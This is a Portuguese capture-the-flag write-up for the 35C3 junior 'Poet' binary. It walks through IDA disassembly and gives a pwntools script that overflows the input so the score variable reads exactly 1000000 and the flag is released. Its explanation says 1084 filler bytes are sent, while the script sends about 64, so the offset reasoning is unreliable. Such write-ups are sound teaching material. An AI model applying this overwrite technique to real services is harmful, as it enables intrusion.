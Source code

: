## [35C3CTF](https://ctftime.org/event/718)
### Nome: [Poet](https://35c3ctf.ccc.ac/uploads/juniorctf/poet-724c1a07d5cf958381856c332e9019d57b5d51bf.zip)
#### Dificuldade: Muito fácil
**Descrição**: 
*We are looking for the  poe  of the year:* `nc 35.207.132.47 22223`
## Levantamento de informações
Ao baixarmos e extrairmos o arquivo zip, obtemos o arquivo Poet:
                                                                                                                                                                            
    C:\Users\ecarlosn\Desktop\poetwu                                                                                                                                        
    > File poet                                                                                                                                                             
    poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=145cad36473cb
    96072142f67bbde20e991c5a4b7, not stripped                                                                                                                               
*Antes de qualquer ação, vejamos o que o executável faz.*

    **********************************************************
    * We are searching for the poet of the year 2018.        *
    * Submit your one line poem now to win an amazing prize! *
    **********************************************************
    Enter the poem here:
    > happy new year
    Who is the author of this poem?
    > deadlock
    
    +---------------------------------------------------------------------------+
    THE POEM
    happy new year
    SCORED 0 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
    +---------------------------------------------------------------------------+

**"SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!"**
    *A mensagem exibida diz que precisamos pontuar exatamente **1000000**. Hora de analisar o executável.*

## Solução
 Para a análise em questão, foi utilizado o [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml).

![IDA screenshot](https://i.imgur.com/XookLxm.png)

*No endereço **00000000004009D3** é possível vizualizar uma chamada à função **rate_poem( )**. Vejamos o que ela faz.*

    .text:000000000040080C loc_40080C:                             ; CODE XREF: rate_poem+8B↓j
    .text:000000000040080C                                         ; rate_poem+A2↓j ...
    .text:000000000040080C                 add     cs:dword_6024E0, 64h
    .text:0000000000400813
    .text:0000000000400813 loc_400813:                             ; CODE XREF: rate_poem+147↓j
    .text:0000000000400813                 lea     rsi, delim      ; " \n"
    .text:000000000040081A                 mov     edi, 0          ; s
    .text:000000000040081F                 call    _strtok
    .text:0000000000400824                 test    rax, rax
    .text:0000000000400827                 jz      loc_400909
    .text:000000000040082D
    .text:000000000040082D loc_40082D:                             ; CODE XREF: rate_poem+53↑j
    .text:000000000040082D                 mov     ecx, 5
    .text:0000000000400832                 mov     rsi, rax
    .text:0000000000400835                 mov     rdi, rbx
    .text:0000000000400838                 repe cmpsb
    .text:000000000040083A                 setnbe  dl
    .text:000000000040083D                 sbb     dl, 0
    .text:0000000000400840                 test    dl, dl
    .text:0000000000400842                 jz      short loc_40080C
    .text:0000000000400844                 mov     ecx, 4
    ...
    ...
    ...
    .text:0000000000400889                 mov     ecx, 7
    .text:000000000040088E                 lea     rdi, aRepeat    ; "repeat"
    ...
    ...
    .text:00000000004008A0                 test    dl, dl
    .text:00000000004008A2                 jz      loc_40080C
    .text:00000000004008A8                 mov     ecx, 4
    .text:00000000004008AD                 lea     rdi, aCtf       ; "CTF"
    .text:00000000004008B4                 mov     rsi, rax
    .text:00000000004008B7                 repe cmpsb
    .text:00000000004008B9                 setnbe  dl
    .text:00000000004008BC                 sbb     dl, 0
    .text:00000000004008BF                 test    dl, dl
    .text:00000000004008C1                 jz      loc_40080C
    .text:00000000004008C7                 mov     ecx, 8
    .text:00000000004008CC                 lea     rdi, aCapture   ; "capture"
    .text:00000000004008D3                 mov     rsi, rax
    ...
    ...
    .text:00000000004008DE                 test    dl, dl
    .text:00000000004008E0                 jz      loc_40080C
    .text:00000000004008E6                 mov     ecx, 5
    .text:00000000004008EB                 lea     rdi, aFlag      ; "flag"
    ...
    ...
    .text:00000000004008FC                 test    al, al
    .text:00000000004008FE                 jnz     loc_400813
    .text:0000000000400904                 jmp     loc_40080C
    .text:0000000000400909 ; ---------------------------------------------------------------------------
*A função nos retorna uma série de comparações com palavras específicas (**flag, pwn, CTF, capture**...).
Apesar das palavras da função nos retornarem pontos acima de Zero:*

    Enter the poem here:
    > flag
    Who is the author of this poem?
    > pwn
    +--------------------------------------------
    THE POEM
    flag
    SCORED 100 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
*Após algumas análises, percebe-se que são irrelevantes para nossa resolução.*
*Voltando à função main, pode-se ver uma outra comparação no endereço **00000000004009D8**:*
![IDA screenshot](https://i.imgur.com/N7L3rSF.png)

*A comparação feita acima verifica se [rbx+440h] é igual à f4240h. Caso essa condição seja verdadeira,  você recebe o resultado da chamada( **flag** ), caso contrário, recebemos a mensagem de erro "**\nSORRY, THIS POEM....*** .

*o **H** no final da sequência de letras e números nos indica que os valores estão em [Hexadecimal](https://pt.wikipedia.org/wiki/Sistema_de_numera%C3%A7%C3%A3o_hexadecimal). Usando qualquer método de conversão para base10(**Decimal**), descobrimos que:*

 - 0x440h = 1088 **base10**
 - 0x_f4240h = 1000000 **base10**

 *Ótimo, encontramos a comparação que é feita para validação do poema/autor. Então, precisamos fazer com que  o registrador **rbx + 1088 = 0xf4240**.*
 *Após uma depuração, pode-se perceber que o responsável pelo nosso input está em **[rbx+1088]** Desta forma, podemos montar nosso script.*
 No caso em questão, foi utilizada a lib [pwntools](http://docs.pwntools.com/en/stable/) no [python2.7](https://www.python.org/download/releases/2.7/).

*Sabendo que **rbx** precisa receber **1088** bytes e que o **cmp** trabalha com os últimos**4 bytes**, enviamos **1084** bytes aleatórios + valor à ser comparado nos últimos .*
   

    from pwn import *
    
    r = remote('35.207.132.47', '22223')   
    print r.recvuntil('Enter the poem here:\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvuntil('this poem?\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvline()
    print r.recvline()
    print r.recvuntil('POINTS')
    print r.recv(1024)

*No script, enviamos o valor em **Hexadecimal** nos últimos 4 bytes que formam 1088, assim, quando a comparação for feita, teremos que **0x_f4240h == 0x_f4240h** *

 - *As letras aleatórias no script podem ser substituídas por exemplo, por* "A" **1084. Feito desta maneira apenas por questões de entendimento geral.*

*após a execução:*

![enter image description here](https://i.imgur.com/AEo9lHY.png)
-
**FLAG     : **35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39****

---
## Recomendações para entendimento geral
[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

[Assembly Control Flow](https://en.wikibooks.org/wiki/X86_Assembly/Control_Flow)

[CMPx86](https://www.felixcloutier.com/x86/cmp)
